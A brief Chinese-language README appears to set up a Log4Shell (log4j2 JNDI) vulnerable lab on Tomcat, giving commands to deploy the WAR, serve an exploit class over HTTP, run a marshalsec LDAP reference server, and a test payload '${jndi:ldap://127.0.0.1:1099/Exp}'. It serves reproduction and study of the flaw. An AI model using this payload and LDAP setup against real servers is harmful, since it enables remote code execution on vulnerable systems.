


# log4j2 jndi tomcat 漏洞环境

## 部署war包

```
mv log4j_demo/out/artifacts/log4j_demo tomcat/webapps
```

## 基础操作

```
cd marshalsec

python3 -m http.server 8888

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/#Exp 1099
```

## 测试

```
${jndi:ldap://127.0.0.1:1099/Exp}
```




